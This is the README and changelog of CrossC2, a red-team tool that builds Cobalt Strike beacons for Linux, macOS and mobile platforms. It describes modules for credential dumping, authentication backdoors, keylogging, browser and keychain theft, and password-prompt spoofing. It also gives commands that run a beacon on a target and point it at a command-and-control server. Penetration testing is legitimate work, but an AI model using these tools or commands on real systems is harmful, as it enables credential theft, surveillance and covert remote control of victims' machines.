






# CrossC2 framework

[README](README.md) | [中文文档](README_zh.md)

🚀 For a faster way, see **cna** introduction [GO📌](#cna-plugin-way)

🔥 **Linux** & **MacOS** supports no file landing, load and execute from memory **dynamic library** or **executable file** [GO📖](https://gloxec.github.io/CrossC2/en/api/)

🔥 Flexibly customize the data return type of the execution file, **portscan**, **screenshot**, **keystrokes**, **credentials** and other user-defined development to achieve more convenient implementation [GO📖](https://gloxec.github.io/CrossC2/en/api/commons.html)    ( [Sample: GO📌](#CustomExtension) )

🔥 Custom communication protocol [GO📖](https://gloxec.github.io/CrossC2/en/protocol/)

🔥 Now supports lateral movement [GO📌](#Lateral-movement:-Usage)

🔥 Now supports loading scripts from memory [GO📌](#Run-script-in-memory)

🎉 **Android** & **iPhone** support [GO📌](#Mobile)


# CrossC2 framework - Generator CobaltStrike's cross-platform beacon

```

	 ▄████▄   ██▀███   ▒█████    ██████   ██████     ▄████▄   ██████▄
	▒██▀ ▀█  ▓██ ▒ ██▒▒██▒  ██▒▒██    ▒ ▒██    ▒    ▒██▀ ▀█        ██░
	▒▓█    ▄ ▓██ ░▄█ ▒▒██░  ██▒░ ▓██▄   ░ ▓██▄      ▒▓█        █████▒
	▒▓▓▄ ▄██▒▒██▀▀█▄  ▒██   ██░  ▒   ██▒  ▒   ██▒   ▒▓▓▄ ▄█ ░▒██
	▒ ▓███▀ ░░██▓ ▒██▒░ ████▓▒░▒██████▒▒▒██████▒▒   ▒ ▓███▀  ░▒▓█████▓
	░ ░▒ ▒  ░░ ▒▓ ░▒▓░░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░   ░ ░▒ ▒    ░▒ ░▓ ░░
	  ░  ▒     ░▒ ░ ▒░  ░ ▒ ▒░ ░ ░▒  ░ ░░ ░▒  ░ ░     ░  ▒     ░ ░░ ░
	░          ░░   ░ ░ ░ ░ ▒  ░  ░  ░  ░  ░  ░  CrossC2 v2.0 @hook
	░ ░         ░         ░ ░        ░        ░     ░ ░          ░
	░                                               ░   
```




# Description

A security framework for enterprises and Red Team personnel, supports CobaltStrike's penetration testing of other platforms (Linux / MacOS / ...), supports custom modules, and includes some commonly used penetration modules.

`Only for internal use by enterprises and organizations, this framework has a certain degree of instability. Non-professionals are not allowed to use it. Anyone shall not use it for illegal purposes and profitability. Besides that, publishing unauthorized modified version is also prohibited, or otherwise bear legal responsibilities.`


|  | Windows | Linux | MacOS | iOS | Android | Embedded |
| --- | --- | --- | --- | --- | --- | --- |
| Run Env (x86) |  | √ |  |  |  |  |
| Run Env (x64) | √ | √ | √ |  |  |  |
| gen beacon (x86) |  | √ |  |  | √ |  |
| gen beacon (x64) |  | √ | √ |  |  |  |
| gen beacon (armv7) |  |  |  | ⍻  | √ |  |
| gen beacon (arm64) |  |  |  | √ | √ |  |
| gen beacon (mips[el]) |  |  |  |  |  | ⍻ |

Restricted description:
* CobaltStrike: currently only supports the last version of cs 3.14(bug fixs) and 4.x versions are supported (see the cs4.1 branch for details).
* Linux: For particularly old systems, you can choose "Linux-GLIBC" option in cna (around 2010)
* MacOS: Latest systems only support 64-bit programs
* iOS: sandbox, restricted cmd
* Embedded: only *nix
* ⍻ : Loader is still in progress

# Install & Usage

> Download:

* **CrossC2.cna**
* **genCrossC2** `(If it is a Windows system, download genCrossC2.Win.exe)`
<details>
<summary><b>note⚠️</b></summary>
The two files that genCrossC2.Win.exe needs to depend on are `ucrtbased.dll` and `vcruntime140d.dll`.
</br>You can install the dependencies yourself or use the files provided in the issue to copy to `C:\Windows\System32`
[issue: win_sdk_dll](https://github.com/gloxec/CrossC2/issues/49#issuecomment-748630879)
</details>

1. Modify the `genCC2` path in the` CrossC2.cna` script to the **real path**
```
77:    $genCC2 = "/xxx/xx/xx/genCrossC2.MacOS";  # <-------- fix
```

2. choose `Script Manager`, add `CrossC2.cna` (If successfully installed, the menu bar will have an additional item `CrossC2`)

> Create listener and copy key:

For some reasons, only HTTPS beacon is currently supported.

1. Copy `.cobaltstrike.beacon_keys` from the cs directory on the **server** to the **local directory.**

> CustomExtension:

1. Add `CrossC2Kit_Loader.cna` after downloading CrossC2Kit. It contains other functions such as memory loading. (The file management function of `cs4.x` version is missing. Only use this Loader to re-enable file management)

> Method of running beacon:

* Run the one-click online script generated by the CrossC2 plugin on the target
* After uploading the beacon to the target machine for empowered operation
* Set the working directory for beacon and run: `export CCPATH=/opt/ && /tmp/c2`
* Temporarily specify the protocol library for beacon and run: `/tmp/c2 /tmp/c2-rebind.so`
* Temporarily set C2 configuration for beacon: `export CCHOST=127.0.0.1 && export CCPORT=443 && /tmp/c2`

## Reference documents: [📖 Wiki](https://gloxec.github.io/CrossC2/en/usage/)

## Module: API introduction [📖 Wiki](https://gloxec.github.io/CrossC2/en/api/)

It adopts the method of loading memory without landing, and supports dynamic libraries (.so/.dylib) and executable files (ELF/MachO).

The type of output information can be freely specified at the time of execution. The return type has been predetermined and can be docked with the native return data type of CS.

<details>
<summary><b>warning⚠️</b></summary>
`⚠️: Although the file is loaded directly from memory, the process can be viewed in ps when the executable file(ELF/MachO) is passed in, but the process name can be customized.`
</br>`⚠️: For special data types, such as passwords, port scan results, etc., please refer to the information returned by the native function of cs, which will be matched according to the regular.`
</details>

<details>
<summary><b>CustomExtension</b></summary>

1. Password dump module: cc2_mimipenguin uses the open source project MimiPenguin2.0, see CrossC2Kit/ mimipenguin/mimipenguin.cna

2. Authentication backdoor modules: cc2_auth, cc2_ssh sudo / su / passwd and other authentication backdoors, ssh is connected and the credentials to connect to other hosts will be recorded.

3. Information collection modules: cc2_safari_dump, cc2_chrome_dump, cc2_iMessage_dump, cc2_keychain_dump access records of common browsers, as well as iMessage chat content and authentication credentials saved in the keychain will be obtained.

4. Traffic proxy module: cc2_frp supports fast TCP/KCP(UDP) reverse socks5 encrypted traffic proxy.

5. Keylogger module: cc2_keylogger records user's keyboard input.

6. Network detection module: cc2_portscan, cc2_serverscan for port scanning and service version scanning.

7. Privilege promotion module: cc2_prompt_spoof induces deception to obtain user account password.

8. Task management module: cc2_job manages the modules running in memory.

9. ...

</details>


## Custom communication protocol: API introduction [📖 Wiki](https://gloxec.github.io/CrossC2/en/protocol/)

Can more easily realize C2Profile configuration and custom communication protocol TCP / UDP and so on.

## Lateral movement

1. Generate beacon of `Linux-bind` / `MacOS-bind` type
2. The target in the intranet runs `./MacOS-bind.beacon <port>` to start the service
3. Run `connect <targetIP>:<port>` in the session of China Unicom


## Run script in memory

<details>
<summary><b>Examples</b></summary>

The script interpreter such as **bash** / **python** / **ruby** / **perl** / **php** in the host can be called directly in the session to execute the script passed into the memory.
`There is no information in the process, all running content is transferred from the memory to the interpreter`
1. python c:\getsysteminfo.py
2. python import base64;print base64.b64encode('whoami'); print 'a'*40
3. php <?php phpinfo()?>

Try to load local script:


Try to run the scripting language directly:


</details>

# Coming soon

1. Rich C2Profile support ✔︎ (Choose custom HTTP module when CNA generates beaocn)
2. Staged Type Shellcode Generation ✔︎ (Only Linux is temporarily supported, and stagerServer needs to be started on the server)
3. http-proxy (auth) & socks proxy back connection support
4. Proxy-Pivots  ✔︎ (Temporarily adopt the method of connecting back to socks proxy)
5. node beacon? (Single node type, can host other beacon without relying on teamserver)
6. Linux & MacOS side so/dylib's reverse shell support, and its derivative process injection functions

# Examples

<details>
<summary><b>Mobile</b></summary>

## Mobile


</details>

<details>
<summary><b>MacOS & Linux</b></summary>

## MacOS & Linux




</details>

<details>
<summary><b>CustomExtension</b></summary>

## CustomExtension

Develop dynamic libraries and customize data return types, such as implementing some built-in functions.

### keystrokes


### credentials


### portscan


</details>

# ChangeLog

## release v2.2.4 - stable :
* -fix v2.2.3 beacon online issue #84 #85
* +support Support for obtaining process list information from procfs on Linux

## release v2.2.3 :
* -fix Fix the bug that beacon exits when opening the file manager on 32-bit Linux.
* -fix Fix the parsing errors of `bcd`, `bls`, `bupload` and other functions in multi-instruction merge tasks, now you can process the same cna scripts as windows beacon.  #81
* +support Add two environment variables to temporarily set the C2 server address for beacon connection. (`CCHOST` & `CCPORT`)
> export CCHOST=127.0.0.1 && export CCPORT=443  && /tmp/c2
* +support Add support for `bupload` function. https://github.com/gloxec/CrossC2/issues/81#issuecomment-841068719

## release v2.2.2 - stable :
* -fix Fix some bugs that caused the beacon to fail to start when loading the custom communication protocol library.
* +support Add two mandatory beacon running methods for loading custom communication protocol library

> 1. export CCPATH=/opt/  && /tmp/c2
(Mandatory setting of a working directory with permissions for beacon, such as `/opt/`)
> 2. /tmp/c2 /tmp/c2-rebind.so
(Mandatory loading of communication protocol library for beacon)

## release v2.2.1 :
* -fix Fix the problem that the file download speed is too slow (now up to full speed)
* -fix Fix the problem of multiple files at the same time (use the `downloads` command to view the progress)
* -fix Fix the problem that the `/tmp/` directory file permissions on the low-version kernel system do not have the execute permission by default, which causes the `beacon` to fail to start
* -fix Fix the problem that resources are occupied and cause failure when `beacon` is repeatedly online on a low-version kernel system
* -fix Fix the problem that files landing on low-version kernel systems face name conflicts and fail to run

## release v2.2 :

* -change Only CS 4.x (>=4.1) version is supported, lower versions will no longer be supported.
* -fix Fix the protocol rebinding error of the low version of Linux kernel
* +support C2 domain name resolution
* +support Support continuous invocation of memory execution components
* +support Support for adding shell aliases for memory execution, so that other people in the team can directly call the loaded memory execution components through shell commands
* +support python-import support, like powershell-import to provide convenience for python execution
* +support low version GLIBC support of genCrossC2

<details>
<summary><b>Historical version update instructions</b></summary>

## release v2.1 :

* +support Support for parsing and executing scripts from memory
* +support Support CobaltStrike 4.1 (see cs4.1 branch for details)

## release v2.0 :

* -fix Fix the problem of path errors caused by backslashes when uploading files in the file management office
* -fix Long-term testing in various scenarios in the real environment, fixing some hidden problems, and now more stable
* +support Support for lower kernel version systems
* +support Environment variables are automatically set at startup
* +support Delete sensitive env records at startup
* +support The background service process can be linked to the init process at startup
* +support Increase session spawn function
* +support Increase the function of session setting environment variables
* +support Increase the privilege escalation function of session getsystem
* +support Increase session analysis function to handle multiple merge tasks
* +support Increase Mac & Linux lateral movement function

## release v1.5 :

* -fix genCrossC2's bug about protocol rebinding.

## release v1.4 :

* -fix Linux daemon process and joblist display problem.

## release v1.3 :

* +support Support custom communication protocol (HTTP, TCP, UDP...) .
* +support A new joblist module has been added to manage programs running without files in persistent memory.
* +support Reverse proxy module{TCP/KCP(UDP)} that executes without files in memory.


md5(genCrossC2.Linux) = 221b3ede4e78fee80f59946f116d7245

md5(genCrossC2.MacOS) = d216cad3fe3c25ead46b85c7ad7051f1

md5(genCrossC2.Win.exe) = a573506e8825b46b041ac3b9307a656b

## release v1.2 :

* +support Support manual selection of key files.
* +support Support to generate shellcode.
* -change No longer rely on cobaltstrike.jar (plug-ins can be placed in any directory).
* -change More flexible and convenient Script Unix Web Delivery.

md5(genCrossC2.Linux) = 2ef7250cc3787d3cbd1e6f99c3c434aa

md5(genCrossC2.MacOS) = eaabde94dd7fed8dabb37cd67a1171c4

md5(genCrossC2.Win.exe) = c65ac808ed3a1000b3ff4ebb8c48ea4e

## release v1.1 :

* -fix Multi-language garbled problem fix for memory load execution function

md5(genCrossC2.Linux) = 2347ed6e30e4655b793a6dbb4d33d25c

md5(genCrossC2.MacOS) = f530333500a76fe228864f8901af4104

md5(genCrossC2.Win.exe) = c223e31b2674a8a11d3254f92259e87a

## release v1.0 :

* -fix Test multiple times for a long time in multiple scenarios in real environment, fix some hidden problems, now more stable
* +support Linux & MacOS Supports no file landing, loading and executing from memory
* +support Reserved CS built-in data types, richer user-defined plug-in return data types, free and easy to implement 'portscan' and other native functions

md5(genCrossC2.Linux) = 12295998d4bffd5b4c4a411fb33428bb

md5(genCrossC2.MacOS) = c88ce9df47529b243e2215a866d445c5

md5(genCrossC2.Win.exe) = 51d1814f1ebbab634bce0373ceb7cee6

## release v0.4 :

* -change Multi-threaded background when shell commands are executed
* -change Redirect error output to standard output when shell command is executed.
* +support Add background file download function.

md5(genCrossC2.Linux) = b2e34f721ec2543b6625e33c8c2935df

md5(genCrossC2.MacOS) = 4e38a9d9a3eeff309648afc02e2e7664

## release v0.3 :

* +support Compatibility with older versions of GLIBC on older systems Linux (around 2010).

## release v0.2 : 

* -fix genCrossC2.Linux crash.
* -fix uploading large file error.
* +support GUI file manager.

md5(genCrossC2.Linux) = 8256374d88c2149efc102aff7e90b3f9

md5(genCrossC2.MacOS) = 08fce0a5d964a091d8bf2344d7ab809e

## release v0.1 : 

* Support Linux & MacOS beacon generation.

md5(genCrossC2.Linux) = f4c0cc85c7cdd096d2b7febedc037538

md5(genCrossC2.MacOS) = 79fff0505092fc2055824ed1289ce8f9


</details>

